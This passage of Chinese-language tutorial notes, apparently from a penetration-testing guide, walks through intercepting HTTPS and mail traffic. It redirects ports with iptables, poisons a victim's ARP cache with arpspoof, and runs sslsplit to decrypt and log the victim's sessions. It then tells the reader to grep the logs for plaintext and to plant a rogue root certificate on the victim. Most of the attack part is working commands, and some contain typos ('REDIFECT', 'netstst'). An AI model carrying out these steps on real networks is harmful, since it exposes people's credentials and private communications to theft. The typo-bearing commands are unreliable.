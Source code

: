 ```bash
# 先查看要用到的端口有没有被占用
netstst -pantu |grep :80

# 查看nat表
iptables -t nat -L

# -F  清空
iptables -t nat -F

# 端口转发命令（PREROUTING在路由之前,-p协议, -j操作）
iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIFECT --to-port 8080
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIFECT --to-port 8443
iptables -t nat -A PREROUTING -p tcp --dport 587 -j REDIFECT --to-port 8443   # MSA
iptables -t nat -A PREROUTING -p tcp --dport 465 -j REDIFECT --to-port 8443    # SMTPS 发邮件
iptables -t nat -A PREROUTING -p tcp --dport 993 -j REDIFECT --to-port 8443	# IMAPS    收邮件
iptables -t nat -A PREROUTING -p tcp --dport 995 -j REDIFECT --to-port 8443 #POP3S
#其他使用ssl协议加密的协议端口一样

iptables -L

```

**3).ARP欺骗**
```bash
# -i本地网卡 -t要欺骗的目标， -r:让他认为网关192.168.1.1的mac地址是我本机的mac地址
arpspoof -i eth0 -t 192.168.1.118 -r 192.168.1.1

#可以发现：受害者机器上关于网关的mac已经换成了kali的
```

**4).启动SSLsplit**
```bash
mkdir -p test/logdir

# -D:debug显示详细信息，-l把连接信息记录到哪，-j“越狱”的根目录(sslsplit的)，-S请求具体数据内容保存的目录，-k私钥，-c证书；对ssl加密的在本地8443监听,对明文在本地8080监听
sslsplit -D -l connect.log -j /root/test -S logdir/ -k ca.key -c ca.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080

# 所有操作完成了
```
- 然后让被害者访问https的一些网站(会显示证书有问题,是否继续浏览)  
- 我们可以查看日志和浏览器证书以及证书保存信息(`cat connect.log`) ,
- 具体通信数据在:`ls test/logdir`, 每个log文件中内容会有被解密的明文信息（如果还有加密信息,那就是应用程序本身进行了加密的，这里的解密的只是通信过程中针对ssl部分）
  通过关键词查找内容：`grep xxx *.log`这样
- 在受害者机器上安装我们生成的服务器根证书之后再次访问(浏览器就不会弹出警告了)



>全站https/非全站https（比如只是登录等部分页面加了https）



###### 2.`Mitmproxy`工具
